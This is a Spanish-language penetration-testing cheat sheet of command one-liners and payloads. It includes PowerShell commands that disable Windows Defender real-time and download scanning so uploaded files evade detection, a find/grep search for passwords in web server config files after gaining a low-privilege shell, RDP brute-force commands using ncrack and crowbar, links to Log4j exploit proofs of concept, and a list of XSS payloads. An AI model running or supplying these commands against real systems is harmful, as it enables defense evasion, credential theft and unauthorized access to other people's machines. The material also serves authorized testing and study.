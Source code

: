 Enumeración de los antivirus que tiene el equipo → "WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName"

Configuración y estado del firewall (características activadas y desactivadas...) → "netsh advfirewall firewall dump"

Podemos probar a deshabilitar el escaneo de todos los ficheros descargados y/o adjuntos para subir nuestros ficheros... → "Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus" luego → "Set-MpPreference -DisableIOAVProtection $true"

Listar reglas de AppLocker → "Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections"


LINUX TRICKS /var/www/html
...........................

Si tras ganar acceso a una shell en la maquina objetivo, somos un usuario con pocos privilegios pero tenemos acceso a /var/www/html podemos buscar mediante el siguiente comando find archivos de configuracion que contengan contraseñas o datos sensibles, para empezar a ganar privilegios:
    find . -iname '*config*' -type f -exec grep -nie 'pass.*=' --color=always /dev/null {} \;


RDP
....

xfreerdp /v:[IP] -sec-nla /u:"" -- Recon
xfreerdp /u:[USER] /p:[PASS] /v:[IP] /cert-ignore -- Para conectarse por RDP a un equipo

ncrack -vv --user user -P wordlist.txt [IP]:3389 -- Try cracking rdp login

crowbar -b rdp -u user -C password_wordlist -s [IP] -v -- Other method to try cracking 


VULNERABILIDAD LOG4J
....................

https://guglia001.github.io/cve/poc/articulo/log4j-CVE-POC/
https://jmlgomez73.github.io/log4shell/
https://github.com/fullhunt/log4j-scan


ACTIVE DIRECTORY
................

https://www.hackplayers.com/2022/03/top10-de-ataques-al-directorio-activo.html


DESCARGA DE ARCHIVOS POR COMANDO
.................................

Linux --> wget [URL]
Windows --> powershell -c "Invoke-WebRequest -Uri '[URL]'" -OutFile archivo


XSS
....

<script>alert('Found')</script>
"><script>alert(Found)</script>">
<script>alert(String.fromCharCode(88,83,83))</script>
"  onload="alert(String.fromCharCode(88,83,83))
" onload="alert('XSS')
<img src='bla' onerror=alert("XSS")>
